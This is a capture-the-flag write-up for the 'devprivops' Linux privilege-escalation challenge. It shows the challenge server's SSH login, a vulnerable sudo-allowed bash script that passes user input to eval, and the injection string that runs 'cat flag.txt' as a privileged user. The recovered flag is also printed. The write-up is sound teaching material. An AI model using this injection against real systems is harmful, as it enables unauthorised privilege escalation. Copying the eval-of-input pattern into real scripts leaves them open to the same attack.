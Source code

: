 # devprivops
## Description
```
Well good luck elevating your privs x)
ssh -p 10000 ctf@devprivops.fword.tech
Password: FwOrDAndKahl4FTW
Author: Kahla
```

SSH into it:
```
ssh -p 10000 ctf@devprivops.fword.tech
 _____                       _
|  ___|_      _____  _ __ __| |
| |_  \ \ /\ / / _ \| '__/ _` |
|  _|  \ V  V / (_) | | | (_| |
|_|     \_/\_/ \___/|_|  \__,_|

ctf@devprivops.fword.tech's password:
DISCLAIMER: Please don't abuse the server !

These Tasks were done to practice some Linux

Author: Kahla, Contact me for any problems


** It may take some time! We are preparing the environment for you! **

Kindly Sponsored By Root-Me Pro
user1@19e8d2367bf3:/home/user1$ ls
devops.sh  flag.txt
user1@19e8d2367bf3:/home/user1$ cat flag.txt
cat: flag.txt: Permission denied
```
You can see there is two files, and we cannot read the flag:
```bash
ls -la
total 32
drwxrwxr-t 1 root  user1           4096 Aug 27 22:44 .
drwxr-xr-x 1 root  root            4096 Aug 27 22:43 ..
-rw-r--r-- 1 user1 user1            220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 user1 user1           3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 user1 user1            807 Feb 25  2020 .profile
-rwxr-xr-x 1 root  user-privileged  945 Aug 27 22:09 devops.sh
-rwxr----- 1 root  user-privileged   67 Aug 27 22:09 flag.txt
```

After I enumerate the container, notice something interesting when I run `sudo -l`:
```bash
sudo -l
Matching Defaults entries for user1 on 19e8d2367bf3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user1 may run the following commands on 19e8d2367bf3:
    (user-privileged) NOPASSWD: /home/user1/devops.sh
```

This means we are allow to run `devops.sh` as `user-privileged` without password!!

## Privilege Escalation

Look at the `devops.sh`
```bash
#!/bin/bash
PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:"
exec 2>/dev/null
name="deploy"
while [[ "$1" =~ ^- && ! "$1" == "--" ]]; do case $1 in
  -V | --version )
    echo "Beta version"
    exit
    ;;
  -d | --deploy )
     deploy=1
     ;;
  -p | --permission )
     permission=1
     ;;
esac; shift; done
if [[ "$1" == '--' ]]; then shift; fi

echo -ne "Welcome To Devops Swiss Knife \o/\n\nWe deploy everything for you:\n"


if [[ deploy -eq 1 ]];then
        echo -ne "Please enter your true name if you are a shinobi\n"
        read -r name
        eval "function $name { terraform init &>/dev/null && terraform apply &>/dev/null ; echo \"It should be deployed now\"; }"
        export -f $name
fi

isAdmin=0
# Ofc only admins can deploy stuffs o//
if [[ $isAdmin -eq 1 ]];then
        $name
fi

# Check your current permissions admin-san
if [[ $permission -eq 1 ]];then
        echo "You are: "
        id
fi
```
The PATH variable is set, so we cannot change the PATH and add fake binary to execute code...

Then I notice a line got `eval` and we can control `name` variable:
```bash
if [[ deploy -eq 1 ]];then
	echo -ne "Please enter your true name if you are a shinobi\n"
	read -r name
	eval "function $name { terraform init &>/dev/null && terraform apply &>/dev/null ; echo \"It should be deployed now\"; }"
	export -f $name
fi
```

Then I create my own script in my machine to test:
```bash
#!/bin/bash
read -r name
eval "function $name { echo hi; }"
```

After some trial and error, I were able to inject code using `a { id; }; echo hi; function b`!!

Try in the container:
```
./devops.sh -d
Welcome To Devops Swiss Knife \o/

We deploy everything for you:
Please enter your true name if you are a shinobi
FwOrDAndKahl4FTW
user1@0c8dfb54caa4:/home/user1$ ./devops.sh -d
Welcome To Devops Swiss Knife \o/

We deploy everything for you:
Please enter your true name if you are a shinobi
a { id; }; echo hi; function b
hi
```

Then try run with `sudo` command to run as the `user-privileged` and inject `cat flag.txt`:
```
sudo -u user-privileged ./devops.sh -d
Welcome To Devops Swiss Knife \o/

We deploy everything for you:
Please enter your true name if you are a shinobi
a { id; }; cat flag.txt; function b{
FwordCTF{W00w_KuR0ko_T0ld_M3_th4t_Th1s_1s_M1sdirecti0n_BasK3t_FTW}
``` 
We get the flag! That it!

## Flag
```
FwordCTF{W00w_KuR0ko_T0ld_M3_th4t_Th1s_1s_M1sdirecti0n_BasK3t_FTW}
```